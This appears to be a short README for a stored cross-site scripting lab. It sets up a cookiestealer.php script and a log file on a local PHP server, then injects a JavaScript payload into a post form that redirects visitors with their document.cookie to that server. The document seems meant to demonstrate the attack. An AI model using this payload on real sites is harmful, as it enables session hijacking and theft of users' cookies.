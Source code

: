 ## Setup
1. Creation of "cookiestealer.php". Contains information of transfer to which location. This can be every website. For realistic scenario it should be the website from where the attack is happening.
2. Creation of "log.txt" for storing the cookie information.

## Attack for session cookie
1. Starting server with php -S 127.0.0.1:4859 (":4859") is any port
2. Inserting in "post_erstellen.html" in input field "Text:" JS code (without JS tags) --> document.location = "http://127.0.0.1:4859/cookiestealer.php?c=" + document.cookie;document.cookie = "username=Null Byte";document.write(document.cookie);

